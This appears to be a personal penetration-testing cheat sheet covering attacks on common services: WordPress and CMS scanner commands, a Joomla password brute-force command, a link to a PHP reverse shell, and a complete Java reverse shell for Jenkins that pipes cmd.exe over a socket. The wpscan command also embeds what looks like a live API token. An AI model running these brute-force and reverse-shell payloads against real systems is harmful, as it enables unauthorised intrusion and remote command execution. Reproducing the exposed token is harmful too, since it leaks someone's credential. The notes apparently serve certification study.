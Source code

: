 ```yaml
---
layout: blank
---
```


### Hacking Common Services

**The best methodology for pentesting services is to usually just search "Pentesting {service name}"**

[https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file](https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file)
- Scroll down for services scanning

Wordpress
- `wpscan --url {url} -e u,vp,vt --plugins-detection aggressive --api-token lT8xySbw7gMN4a2SoFlwpEXI8BzPdEyDn1GAcdaGKAE`

Drupal
- `droopescan scan drupal -u {url}`

Joomla
- `droopescan scan joomla -u {url}`
- `sudo python3 joomla-brute.py -u {url} -w passwords.txt -usr {username}
    - [https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)

PHP
- [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) - reverse shell (cross platform)

Jenkins
- Reverse shell:
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```